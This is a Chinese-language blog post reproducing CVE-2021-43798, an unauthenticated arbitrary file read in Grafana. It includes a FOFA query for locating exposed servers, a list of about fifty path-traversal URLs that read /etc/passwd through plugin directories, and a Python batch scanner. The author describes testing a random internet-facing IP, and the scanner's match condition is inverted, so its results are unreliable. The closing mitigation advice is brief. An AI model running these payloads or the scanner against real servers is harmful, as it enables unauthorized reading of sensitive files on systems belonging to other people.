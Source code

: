 ```yaml
---
title: CVE-2021-43798（Grafana 未授权任意文件读取漏洞）
comments: true
date: 2022-01-18 23:21:08
tags: ["Grafana", "漏洞复现"]
categories:
- 渗透测试
cover: https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220118233456399.png
top_img:
description:
---
```




## 漏洞描述

Grafana是一个跨平台、开源的数据可视化网络应用程序平台。用户配置连接的数据源之后，Grafana可以在网络浏览器里显示数据图表和警告。

Grafana 存在未授权任意文件读取漏洞，攻击者在未经身份验证的情况下可通过该漏洞读取主机上的任意文件。



## 影响范围

经测试，目前最新版本（Grafana v8.2.6）仍存在漏洞。





## 漏洞成因

主要是插件原因，查看代码是插件目录直接和requestedFile进行合并，没有进行过滤

参考这篇文章：https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw



## 漏洞复现

### FOFA 查询

```bash
app="Grafana" && country="CN" && body="v8."
```

在fofa上面找的一个ip进行测试，只需要简单抓包，将路径改掉，就可以读取文件内容：

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220118233442024.png)

### Fuzz些插件列表

```
/public/plugins/alertGroups/../../../../../../../../etc/passwd
/public/plugins/alertlist/../../../../../../../../etc/passwd
/public/plugins/alertmanager/../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../etc/passwd
/public/plugins/canvas/../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../etc/passwd
/public/plugins/dashboard/../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../etc/passwd
/public/plugins/debug/../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd
/public/plugins/grafana/../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../etc/passwd
/public/plugins/live/../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../etc/passwd
/public/plugins/mixed/../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../etc/passwd
/public/plugins/xychart/../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../etc/passwd
```



```
alertmanager
grafana
loki
postgres
grafana-azure-monitor-datasource
mixed
prometheus
cloudwatch
graphite
mssql
tempo
dashboard
influxdb
mysql
testdata
elasticsearch
jaeger
opentsdb
zipkin
alertGroups
bargauge
debug
graph
live
piechart
status-history
timeseries
alertlist
candlestick
gauge
heatmap
logs
pluginlist
table
welcome
annolist
canvas
geomap
histogram
news
stat
table-old
xychart
barchart
dashlist
gettingstarted
icon
nodeGraph
state-timeline
text
```



### 脚本

```python
import requests
import sys
 
args = str(sys.argv[1])

headers = {
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0",
}

with open("./paload.txt", "r+") as f:	# paload存放的插件名
    for line in f:
        url = "http://"+args+"/public/plugins/"+str.rstrip(line)+"/../../../../../../../../../../../etc/passwd"

        req = requests.post(url, headers=headers,timeout=(3,7),allow_redirects=False)
        a=req.text
        str1='root'
        if a in str1:
            print('确认存在'+str.rstrip(line)+'路径,并存在漏洞!')
            print(url)
        else:
            print('不存在漏洞!')
```

脚本改进：多线程+批量url检测



## 漏洞分析

暂未进行

参考：https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw



## 修复建议

请关注厂商主页更新：[Grafana: The open observability platform | Grafana Labs](https://grafana.com/)

临时修复建议：

1、通过防火墙等安全设备设置访问策略，设置白名单访问。

2、如非必要，禁止公网访问该系统。
